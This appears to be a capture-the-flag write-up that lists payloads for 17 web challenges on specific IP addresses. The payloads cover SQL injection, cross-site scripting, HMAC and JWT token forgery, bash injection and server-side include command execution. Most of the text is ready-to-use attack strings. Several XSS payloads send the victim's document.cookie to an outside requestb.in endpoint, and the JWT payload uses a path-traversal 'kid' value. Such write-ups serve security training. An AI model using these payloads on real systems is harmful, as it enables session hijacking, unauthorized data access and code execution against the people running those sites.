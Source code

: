 #1 sqli
* http://188.166.248.215/
```0||1```

#2 sqli
* http://188.166.248.215/ce4dd79d-971b-40d3-a4e6-2041da6bcc64/
```'or'1```

#3 sqli
* http://188.166.248.215/85998adb-2109-45d2-aec9-6e9d995e6d47/
```'||1-- ```

#4 sqli
* http://188.166.248.215/f3af878d-d7cd-47c0-b98e-074cf82d30d6/
```0-- '||1-- "||1-- ```

#5 xss
* http://139.59.127.138/8eb7a8a1-2e0d-4ff7-a91b-8686ff229c28/
```<img src=x onerror='src="http://requestb.in/1bikbhd1?x="+encodeURIComponent(document.cookie)'>```

#6 sqli
* http://139.59.127.139/dbd41354-9645-4e87-bbb8-27f5db622a67/
username: ```\```
password: ```||1-- ```

#7 xss
* http://139.59.127.142/39b21eea-6168-431b-81b5-23252749917e/
js:
```
');}location='http://requestb.in/1bikbhd1?x='+encodeURIComponent(document.cookie);{{'*/'/*
```
url:
```
http://139.59.127.142/39b21eea-6168-431b-81b5-23252749917e/?js=')%3B%7Dlocation%3D'http%3A%2F%2Frequestb.in%2F1bikbhd1%3Fx%3D'%2BencodeURIComponent(document.cookie)%3B%7B%7B'*%2F'%2F*
```

#8 xss
* http://139.59.127.141/8e11d478-be5d-4f05-a27b-f3bff7b84168/

`?url` query parameter is vulnerable to xss. CSP rules are: `Content-Security-Policy:default-src 'none'; script-src 'nonce-disabled';`

```
url=`pwn"><script nonce="disabled">location="http://requestb.in/1bikbhd1?y="+encodeURIComponent(document.cookie)</script><p x="`


`http://139.59.127.141/8e11d478-be5d-4f05-a27b-f3bff7b84168/?url=pwn%22%3E%3Cscript%20nonce%3D%22disabled%22%3Elocation%3D%22http%3A%2F%2Frequestb.in%2F1bikbhd1%3Fy%3D%22%2BencodeURIComponent(document.cookie)%3C%2Fscript%3E%3Cp%20x%3D%22`

```

#9 sqli (triple short)
* http://139.59.127.144/d25d0cb4-90c3-465d-8733-b50229371377/
```
"="'='
```

#10 sqli (12 random short)
* http://139.59.127.144/9fc91798-4c0f-4e23-ab10-32e03e77ac95/

`5=6=0='&&0 union select char(115,117,99,99,101,115,115)from dual where 1||6='||5="&&0 union select char(115,117,99,99,101,115,115) from dual where 1||5="&&0 union select char(115,117,99,99,101,115,115) from dual where 1||8`

`5=6=0='&&0 union select char(115,117,99,99,101,115,115)from dual where 1||'||"&&0 union select char(115,117,99,99,101,115,115) from dual where 1||"&&0 union select char(115,117,99,99,101,115,115) from dual where 1||8`

`0='&&0 union select char(0x73756363,6648691)from dual where 1||'"&&0 union select char(0x73756363,6648691)from dual where 1||"&&0 union select char(0x73756363,6648691)from dual where 1||0`

`'union select char(0x73756363,6648691)from dual where!'"union select char(0x73756363,6648691)from dual where 1||"=3 union select char(0x73756363,6648691)from dual where 1||0`

`'union select char(0x73756363,6648691)-- '"union select char(0x73756363,6648691)-- "=3 union select char(0x73756363,6648691)-- `

`'union select char(0x73756363,6648691)-- '"union select'success'-- "=3 union select'success'-- `

`'union select char(0x73756363,6648691)#'"union select'success'#"=3 union select'success'#`

`5=6 union select char(0x73756363,6648691)-- '=7 union select'success'-- "=7 union select'success'-- `

`0=3 union select char(0x73756363,6648691)-- 'union select'success'-- "union select'success'-- `

`0=3 union select char(0x73756363,6648691)#'union select'success'#"union select'success'#`

`@ union select char(0x73756363,6648691)#'union select'success'#"union select'success'#`

`@/*'/*"/**/union select'success'#`

```
@#'#"
union select'success'#
```

#11 ruby hmac token 1
* http://139.59.127.145/db55fc7a-c615-449a-b86e-bde4df2ed70c/

There is source leak by forcing some ruby error, for example utf8 decoding error. We need to sign a malformed string, but that's not a problem.

`http://139.59.127.145/db55fc7a-c615-449a-b86e-bde4df2ed70c/?data=aaaaaaaaa%FFb%20%20%20%20%20%20%20%20%20GUEST%20%20%20%20%20&hmac=ca9a9653f330c29dc8f797c08d6f23a16e17c2132e993b7981a1ad330723b655`

```
  end

  generated_hmac = OpenSSL::HMAC.hexdigest(OpenSSL::Digest.new('sha256'), KEY, params["data"])
  unless params["hmac"] == generated_hmac
    return "go away hacker"
  end

  @first_name, @last_name, @role = params["data"].scan(/.{10}/).map(&:rstrip)

  if @role == "ADMIN"
    content_type :txt
    return File.read("#{__dir__}/../next_challenge_info.txt")
  else
    @title = "User Info"
    erb :index
```

```
first_name[]=1&first_name[]=2&first_name[]=3&first_name[]=444ADMIN++++++++++++++&first_name[]=5&first_name[]=6&first_name[]=7&first_name[]=8&first_name[]=9&first_name[]=0&last_name=ADMIN
```

#12 ruby hmac token 2
* http://139.59.127.146/ffd88992-6cc1-4733-bcb5-39dd5b1603a8/

This time there is no source, previous exploit doesn't work. This time they capitalized all the input.


Assume they cut the length before capitalizing and pad afterwards. Unicode anyone? There are codepoints that expand to
more codepoints when uppercased.

ftp://ftp.unicode.org/Public/UCD/latest/ucd/SpecialCasing.txt

```
first_name=aa%1F%B2%E1%BE%B7%E1%BE%B7%E1%BE%B7%E1%BE%B7%E1%BE%B7&last_name=admin+++++
```

#13 jwt bypass
* http://139.59.112.116/dddace4a-d619-4204-bb15-df6c0a24d6de/

https://github.com/jwt/ruby-jwt

kid was a local file


```
var kid = "../../../etc/magic";
var alg = "HS256";
var hdr = $@"{{""typ"":""JWT"",""alg"":""{alg}"",""kid"":""{kid}""}}";
var body = $@"{{""user"":""admin""}}";
```
```eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii4uLy4uLy4uL2V0Yy9tYWdpYyJ9.eyJ1c2VyIjoiYWRtaW4ifQ.KHvUjYMwH49GkMBB1FyyHJjX8J1kt79VAYadOpLDlMM```


#14
* http://139.59.127.147/e08720e1-df29-46cb-b1c8-83a32e9083df/

```
sqli
database leak with usernames and password hashes
crackstation: ripemd160

sql = "' UNION SELECT * FROM (SELECT '{}') c LEFT JOIN (SELECT '{}') a ON 1 LEFT JOIN (SELECT 0) b on 1 #".format(username, ripemd160(password).hex())
print(make_query(sql, password))
```

#15 bash injection
* http://139.59.127.148/ed932765-1a3a-467a-be5b-e11dc1fc542d/
```$( pwd | cut -c -9 )$( ls -S -r .. )```

#16
* http://188.166.183.58/96e5c0bd-7f33-4188-94f0-89b3094bd6af/
```
captcha madness with no repeating chars

authors solution:
http://139.59.127.149/e3cb1461-411d-4281-9c62-80b3c5e83cc9/captcha.php?id=q%27+unioN%0AselEct%0BmId(@fLag%0CFrOM%0D5)%23
```

#17

* http://139.59.127.150/1d0f2acf-a96b-4e9c-a70a-92ba42f70bc2/

By sending an invalid requests it replies with an error page redirecting to `/index.shtml`. What is `shtml`?

Somehow we found out there is a `/next_challenge` file on the filesystem. Don't remember how.

```
<!--#set var="PERL5OPT" value="-d" --><!--#set var="PERL5DB" value="BEGIN { require 'perl5db.pl' } END { print `cat /ne*` }" --><!--#include virtual="index.pl" onerror="index.pl"-->

http://139.59.127.150/1d0f2acf-a96b-4e9c-a70a-92ba42f70bc2/?name=%3C!--%23set%20var=%22PERL5OPT%22%20value=%22-d%22%20--%3E%3C!--%23set%20var=%22PERL5DB%22%20value=%22BEGIN%20{%20require%20%27perl5db.pl%27%20}%20END%20{%20print%20`cat%20/ne*`%20}%22%20--%3E%3C!--%23include%20virtual=%22index.pl%22%20onerror=%22index.pl%22--%3E

```